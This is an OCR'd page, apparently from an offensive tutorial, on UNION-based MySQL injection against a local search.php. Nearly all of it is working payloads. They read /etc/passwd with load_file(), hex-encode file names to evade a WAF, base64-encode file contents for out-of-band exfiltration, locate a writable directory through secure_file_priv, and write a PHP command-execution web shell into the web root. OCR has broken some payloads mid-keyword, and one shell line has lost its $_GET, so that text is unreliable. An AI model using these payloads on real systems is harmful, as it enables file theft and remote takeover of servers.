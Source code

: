 **Reading files**
using `load_file` function to read `/etc/passwd` file 

Example:

```
curl "http://127.0.0.1/search.php?search=tmgm'Union+SE
LECT+ALL+1,2,load_file('/etc/passwd'),4--+"
```

<font color=red> NOTE if encountering
errors when reading a file, convert the string to its hexadecimal equivalent.
This approach helps when backslashes disrupt the syntax or if a WAF blocks
file names. </font>

Example:
```
http://127.0.0.1/search.php?search=tmgm'Union+SELECT+
ALL+1,2,load_file(0x2f6574632f686f73746e616d65),4--+
```
Alternatively, the entire file content can also be converted into base64 or
hex. This can be achieved using the “To_base64” functions, which is helpful
in scenarios where we need to use Out-of-Band queries

Example:

```
http://127.0.0.1/search.php?search=tmgm'Union+SELECT
+ALL+1,2,To_base64(load_file(0x2f6574632f686f73746e6
16d65)),4--+
```
**Writing Files**

Next we only need to upload a simple PHP backdoor, which would allow us to execute commands on the system. but before we need to determine a writable directory

**Retreiving working directory**

we can query the `secure_file_priv` variable. 

example in mysql :

```
SELECT @@secure_file_priv;
```

```
http://127.0.0.1/search.php?search=tmgm'Union+SELECT+A
LL+1,2,@@secure_file_priv,4--+
```

Next we will attempt to upload our php code containing the `\<?php system($\_GET\['cmd']);?>` 
payload:

```
UNION+SELECT+ALL+1,2,<?php system([\'cmd\']);?>,4 into
outfile "/var/www/html/shell.php"--+
```
we have used escape characters to handle single quotes , however to avoid errors we could use their hexadecimal equivalent.
